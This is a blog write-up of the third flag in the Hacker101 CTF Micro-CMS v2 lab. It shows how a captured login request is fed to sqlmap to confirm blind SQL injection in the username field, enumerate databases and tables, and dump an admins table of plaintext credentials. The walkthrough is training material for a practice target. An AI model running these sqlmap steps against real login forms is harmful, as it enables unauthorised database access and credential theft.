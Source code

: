 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 3
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1) and [flag2](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-2) this is a writeup of the final flag in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding a the final vulnerability

At this point I've had a lot of time to dig around in the front end and can't think of anything else to try there, so let's have a dig in the database.

# sqlmap

If you've not come across it before, [sqlmap](https://sqlmap.org/) is a tool that automates finding and exploiting sql injection vulns.  Given we are exploiting a non-reflected (AKA blind) injection vuln (i.e. the results of the injection are not shown in the UI) then we either need to script something ourselves or use a tool. In this case sqlmap is very powerful but the docs aren't the best.  Let's have a play:

# Getting a request payload

The first thing we'll need is a request payload in a format that sqlmap understands.  In chrome, make sure you've got dev tools open on the login page, then enter any old junk in the username and password fields and click "Log In".

Now in the network tab we can right-click and select `Copy request headers` and paste the contents into a new file (I called mine "request.txt").  Then go back to the network tab and down in the Form Data area select `view source` and copy the payload.

![login error]({{ site.url }}/assets/post-images/h101-cms-v2/LoginCopy.png)

So the contents of the file looks something like this (with a different URL on the first line...):

```
POST /83aa39a35a/login HTTP/1.1
Host: 35.190.155.168
Connection: keep-alive
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://35.190.155.168
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: http://35.190.155.168/83aa39a35a/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: l2session=eyJhZG1pbiI6dHJ1ZX0.YJlkcg.ZOb4OMIethVS0zf62YyVTrw6Ong

username=user&password=pass
```

# Testing the username field

Now we're ready to run some tests.  In this first one we're going to get sqlmap to test the username parameter of the request we saved in request.txt.  The `-r` flag is the path to the request file we created, and the `-p` flag is the parameter to test:

`sqlmap -r ./request.txt -p username`

After running this we can see that the username field is vulnerable and that that we're working with MySQL >= 5.0 (MariaDB fork) and some details about the back end OS.  A little scary how much can be picked up here.

# Enumerating the databases

Next up we can use the `--dbs` command to get back a list of all the tables in the DB:

`sqlmap -r ./request.txt -p username --dbs`

This gives us 4 databases on the server that we can access:
- information_schema
- level2
- mysql
- performance_schema

# Enumerating the tables

That level2 database looks interesting.  We can use the `-D` flag to select that database, then use the `--tables` flag to list out the tables in that DB:

`sqlmap -r ./request.txt -p username -D level2 --tables`

Running this gives us 2 tables:

```bash
Database: level2
[2 tables]
+--------+
| admins |
| pages  |
+--------+
```

# Dumping the table contents

OK, that admin table looks like a good candidate.  We can use the `-T` flag to select that table and the `--dump` flag to dump the contents to the console.

`sqlmap -r ./request.txt -p username -D level2 -T admins --dump`

I won't post the output here but that's given me a table with a username and a plaintext password.  Logging in to the site with those credentials gives me the final flag.

And with that we are done with this small CTF, all the flags found and a few points on the board.  I plan on doing more of these posts for the other challenges on hacker 101.

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
